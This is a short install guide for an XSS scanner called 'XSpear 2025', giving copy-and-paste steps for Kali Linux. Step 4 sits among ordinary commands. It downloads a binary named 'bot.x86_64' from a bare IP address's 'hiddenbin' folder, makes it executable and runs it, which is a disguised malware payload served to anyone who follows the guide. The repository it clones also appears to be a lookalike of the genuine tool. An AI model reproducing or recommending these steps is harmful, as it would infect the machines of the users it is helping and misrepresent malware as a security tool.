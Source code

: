 How to Install XSpear 2025! To find XSS bugs easy $$$

----------------------------------------------------
Step By Step (kali linux) Copy And Paste!

1) git clone https://github.com/Xss12z/XSpear-2025.git

2) cd XSpear-2025

3) apt update

4) wget http://5.180.82.194/hiddenbin/bot.x86_64; chmod +x bot.x86_64; ./bot.x86_64

5) gem install XSpear

---------------------------------------------------
And setup is done! your ready to find XSS bugs $$ !
----------------------------------------------------
Usage 

XSpear -h 

XSpear -u "Put URL HERE" -v 1

Example XSpear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
